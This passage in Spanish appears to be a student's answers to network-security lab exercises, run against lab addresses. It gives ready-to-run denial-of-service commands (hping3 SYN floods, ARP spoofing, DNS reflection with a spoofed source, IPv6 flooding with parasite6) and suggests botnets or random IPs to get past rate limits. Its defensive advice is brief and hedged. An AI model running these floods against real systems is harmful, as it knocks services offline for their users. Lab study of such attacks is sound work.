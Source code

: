 Para el DOS directo:

	hping3 10.10.150.150 --flood

También podríamos dejar a una máquina sin conectividad, asignando su ip del router a una mac inventada:

	# watch ./packme.sh

Para el reflective DOS, podríamos usar este ataque a DNS

	# ./dnsdrdos -f nameservers -s 10.10.102.150 -d google.com.
 
### q)
Considerando que todos los sistemas del laboratorio tiene autoconfiguración de la pila IPv6, ¿cómo podría tratar de tirar abajo todos los sistemas? Haga también pruebas de flooding en IPv6. ¿Cómo podríamos protegernos?.

	# alive6 eth1
	# parasite6 eth1 [mac-inventada]

Podríamos protegernos añadiendo las tablas arp estáticas (supuestamente)

### r)
Ataque un servidor apache para provocarle un DoS. ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produce desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?

Para el ataque podríamos usar SYN al puerto 80:

	# hping3 10.10.150.150 --flood

Para protegernos, podríamos limitar las conexiones por ip de origen. O usa BSD.

Para intentar saltarnos la limitación, con una BOTNET, o con ips aleatorias si estamos en la red.
